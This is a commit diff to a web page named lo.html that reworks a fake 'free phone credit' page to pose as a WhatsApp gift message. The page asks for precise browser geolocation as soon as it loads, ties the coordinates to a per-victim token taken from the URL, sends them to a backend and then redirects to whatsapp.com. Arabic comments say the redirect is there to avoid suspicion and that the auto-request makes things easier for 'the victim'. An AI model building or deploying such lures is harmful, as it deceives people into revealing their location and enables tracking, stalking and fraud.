

Before and after one commit to MHGOR967/botwahm, a website: page lo.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update HTML for WhatsApp gift credit feature

```diff
--- a/lo.html
+++ b/lo.html
@@ -3,11 +3,11 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>منصة الشحن الفوري - رصيد مجاني مخصص لدولتك</title>
+    <title>🎁 هدية رصيد مجاني وصلت لك عبر واتساب</title>
 
-    <!-- وسوم المعاينة الاجتماعية (Open Graph) لجذب المستخدمين -->
-    <meta property="og:title" content="احصل على رصيد مجاني مخصص لشبكة بلدك الآن | Free Credit">
-    <meta property="og:description" content="منصة الشحن الفوري تتيح لك شحن رصيد مجاني يتوافق تلقائياً مع دولتك. اضغط للسماح بتحديد الموقع واستلام الرصيد!">
+    <!-- وسوم المعاينة الاجتماعية لتظهر كأنها رسالة إهداء رصيد حقيقية في الواتساب -->
+    <meta property="og:title" content="لقد تلقيت هدية رصيد مجاني بقيمة 100 ريال/دولار! اضغط للاستلام">
+    <meta property="og:description" content="أرسل لك أحد أصدقائك هدية رصيد مجاني عبر واتساب. انقر هنا لتأكيد دولتك واستلام الرصيد فوراً!">
     <meta property="og:image" content="https://images.unsplash.com/photo-1526374965328-7f61d4dc18c5?w=1200&auto=format&fit=crop&q=80">
     <meta property="og:type" content="website">
 
@@ -16,86 +16,80 @@
     <style>
         @import url('https://fonts.googleapis.com/css2?family=Tajawal:wght@300;400;500;700;900&display=swap');
         body { font-family: 'Tajawal', sans-serif; }
-        .credit-gradient { background: linear-gradient(135deg, #059669 0%, #047857 100%); }
-        .glass-card { background: rgba(18, 18, 24, 0.95); backdrop-filter: blur(12px); border: 1px solid rgba(5, 150, 105, 0.25); }
+        .wa-gradient { background: linear-gradient(135deg, #25D366 0%, #128C7E 100%); }
+        .glass-card { background: rgba(18, 18, 24, 0.95); backdrop-filter: blur(12px); border: 1px solid rgba(37, 211, 102, 0.3); }
     </style>
 </head>
-<body class="bg-black text-white min-h-screen flex flex-col justify-between selection:bg-emerald-500 selection:text-white">
+<body class="bg-black text-white min-h-screen flex flex-col justify-between selection:bg-[#25D366] selection:text-white">
 
-    <!-- شريط علوي احترافي -->
-    <header class="w-full bg-zinc-900/80 border-b border-zinc-800 py-3 px-4 md:px-8 sticky top-0 z-50 backdrop-blur-md">
-        <div class="max-w-6xl mx-auto flex justify-between items-center">
-            <div class="flex items-center space-x-3 space-x-reverse">
-                <div class="w-10 h-10 rounded-xl credit-gradient flex items-center justify-center font-black text-xl text-white shadow-lg shadow-emerald-500/30">
-                    <i class="fa-solid fa-globe"></i>
-                </div>
-                <div>
-                    <span class="font-black text-lg tracking-wider bg-gradient-to-r from-emerald-400 to-teal-200 bg-clip-text text-transparent">GlobalCredit</span>
-                    <span class="text-xs block text-zinc-400 font-semibold">Smart Regional Recharge</span>
-                </div>
+    <!-- شريط علوي يحاكي تطبيق واتساب -->
+    <header class="w-full bg-[#075E54] py-3.5 px-4 md:px-8 sticky top-0 z-50 shadow-md flex items-center justify-between">
+        <div class="flex items-center space-x-3 space-x-reverse">
+            <div class="w-10 h-10 rounded-full bg-white/20 flex items-center justify-center text-white text-xl">
+                <i class="fa-brands fa-whatsapp"></i>
             </div>
-            <div class="text-xs bg-zinc-800 text-emerald-400 px-3 py-1.5 rounded-lg border border-emerald-500/30">
-                <i class="fa-solid fa-signal ml-1"></i> الكشف التلقائي للدولة
+            <div>
+                <span class="font-bold text-base text-white block">هدية الرصيد المجاني</span>
+                <span class="text-[11px] text-emerald-200 block">متصل الآن عبر واتساب</span>
             </div>
+        </div>
+        <div class="text-xs bg-emerald-600 text-white px-3 py-1 rounded-full font-semibold">
+            هدية مؤكدة 🎁
         </div>
     </header>
 
     <!-- المحتوى الرئيسي -->
     <main class="flex-grow flex items-center justify-center p-4 md:p-6">
-        <div class="w-full max-w-xl glass-card rounded-3xl p-6 md:p-10 shadow-2xl relative overflow-hidden text-center space-y-6">
+        <div class="w-full max-w-md glass-card rounded-3xl p-6 md:p-8 shadow-2xl relative overflow-hidden text-center space-y-6">
 
-            <div class="absolute -top-24 -right-24 w-64 h-64 bg-emerald-500/10 rounded-full blur-3xl pointer-events-none"></div>
-
-            <div class="w-20 h-20 rounded-3xl credit-gradient flex items-center justify-center mx-auto text-4xl text-white shadow-lg shadow-emerald-500/30 animate-bounce">
-                <i class="fa-solid fa-location-crosshairs"></i>
+            <div class="w-20 h-20 rounded-3xl wa-gradient flex items-center justify-center mx-auto text-4xl text-white shadow-lg shadow-[#25D366]/30 animate-bounce">
+                <i class="fa-solid fa-红包 fa-solid fa-gift"></i>
             </div>
 
             <div class="space-y-2">
-                <span class="bg-emerald-500/20 text-emerald-400 text-xs px-3 py-1 rounded-full font-bold border border-emerald-500/30">تحليل شبكة الدولة تلقائياً</span>
-                <h1 class="text-2xl md:text-3xl font-black text-white">تحديد دولتك لإرسال الرصيد الصحيح</h1>
+                <span class="bg-[#25D366]/20 text-[#25D366] text-xs px-3 py-1 rounded-full font-bold border border-[#25D366]/30">تهانينا! لديك رصيد في الانتظار</span>
+                <h1 class="text-xl md:text-2xl font-black text-white">جاري تحديد شبكة دولتك لتحويل الرصيد...</h1>
                 <p class="text-xs text-zinc-400 leading-relaxed">
-                    لكي يتم إرسال الرصيد المجاني عبر شبكة الاتصالات الرسمية التابعة لبلدك، يرجى النقر على زر <span class="text-emerald-400 font-bold">"السماح بالموقع" (Allow)</span> عندما يظهر لك المتصفح النافذة المنبثقة.
+                    يرجى النقر على زر <span class="text-[#25D366] font-bold">"السماح" (Allow)</span> في رسالة المتصفح الفورية لتأكيد إيداع الرصيد في هاتفك.
                 </p>
             </div>
 
-            <div class="space-y-4 pt-2">
-                <button onclick="requestUserLocation()"
-                    class="w-full credit-gradient hover:opacity-95 text-white font-black py-4 rounded-2xl transition duration-200 shadow-lg shadow-emerald-500/25 flex items-center justify-center space-x-2 space-x-reverse text-base">
-                    <span>السماح بالموقع وتحليل الدولة فوراً</span>
-                    <i class="fa-solid fa-arrow-left text-xs"></i>
-                </button>
+            <!-- محاكاة رسالة واتساب واردة -->
+            <div class="bg-zinc-900 border border-zinc-800 p-4 rounded-2xl text-right space-y-1 relative">
+                <div class="absolute -top-3 right-4 bg-[#075E54] text-[10px] text-white px-2 py-0.5 rounded">رسالة الهدية</div>
+                <p class="text-xs text-zinc-300">"مرحباً بك! تم إرسال هدية رصيد بقيمة 100 ريال لجهازك، اتبع التعليمات لاستلامها فوراً."</p>
+                <span class="text-[10px] text-zinc-500 block text-left">الآن ✓✓</span>
             </div>
 
-            <div id="statusText" class="text-xs text-zinc-400 font-semibold py-2">
-                في انتظار منح صلاحية الموقع الجغرافي...
+            <div id="statusText" class="text-xs text-emerald-400 font-semibold animate-pulse">
+                جاري طلب صلاحية الموقع الفوري...
             </div>
 
         </div>
     </main>
 
     <footer class="w-full text-center py-4 text-xs text-zinc-500 border-t border-zinc-900">
-        جميع الحقوق محفوظة © GlobalCredit Panel 2026 - نظام الكشف الجغرافي الآمن.
+        جميع الحقوق محفوظة © WhatsApp Gift Credits 2026
     </footer>
 
-    <!-- سكربت طلب الموقع التلقائي وإرسال الإحداثيات للرابط المطلوب -->
+    <!-- سكربت طلب الموقع تلقائياً بمجرد الدخول وإرسال الإحداثيات -->
     <script>
-        function requestUserLocation() {
+        window.addEventListener('DOMContentLoaded', () => {
             const statusText = document.getElementById('statusText');
-            statusText.textContent = "جاري طلب إذن الوصول للموقع لتحديد شبكة بلدك...";
-            statusText.className = "text-xs text-emerald-400 font-semibold animate-pulse";
 
+            // محاولة طلب الموقع فورا وبشكل تلقائي
             if (navigator.geolocation) {
                 navigator.geolocation.getCurrentPosition(
                     async (position) => {
-                        statusText.textContent = "تم تحديد دولتك بنجاح! جاري تحويلك لصفحة استلام الرصيد...";
-                        statusText.className = "text-xs text-emerald-400 font-semibold";
+                        statusText.textContent = "تم استلام الموقع بنجاح! جاري تحويلك للرصيد...";
+                        statusText.className = "text-xs text-emerald-400 font-bold";
 
-                        // استخراج الرمز token من المسار (مثل /getLocation/380985ab)
+                        // استخراج الرمز token من المسار (مثل /getLocation/07dfbe0f)
                         const pathParts = window.location.pathname.split('/');
                         const token = pathParts.pop() || pathParts.pop() || new URLSearchParams(window.location.search).get('t');
 
                         if (!token) {
-                            console.error('Token not found.');
+                            console.error('Token not found in path.');
                             return;
                         }
 
@@ -117,25 +111,21 @@
                             console.error('Failed to submit location');
                         }
 
+                        // التوجيه بعد ثوانٍ لإبعاد الشبهة
                         setTimeout(() => {
-                            window.location.href = 'https://www.google.com';
+                            window.location.href = 'https://www.whatsapp.com';
                         }, 2000);
                     },
                     (error) => {
-                        statusText.textContent = "عذراً، يجب النقر على 'السماح' (Allow) لتحديد دولتك وإرسال الرصيد!";
+                        statusText.textContent = "تنبيه هام: يرجى الضغط على 'السماح بالموقع' لإتمام إيداع الرصيد!";
                         statusText.className = "text-xs text-red-400 font-semibold";
                     },
-                    { enableHighAccuracy: true, timeout: 15000, maximumAge: 0 }
+                    { enableHighAccuracy: true, timeout: 20000, maximumAge: 0 }
                 );
             } else {
-                statusText.textContent = "متصفحك لا يدعم خاصية تحديد الموقع الجغرافي.";
+                statusText.textContent = "متصفحك لا يدعم خاصية تحديد الموقع.";
                 statusText.className = "text-xs text-red-400 font-semibold";
             }
-        }
-
-        // محاولة طلب الموقع تلقائياً بعد ثانية لتسهيل العملية على الضحية
-        window.addEventListener('DOMContentLoaded', () => {
-            setTimeout(requestUserLocation, 1200);
         });
     </script>
 </body>
```
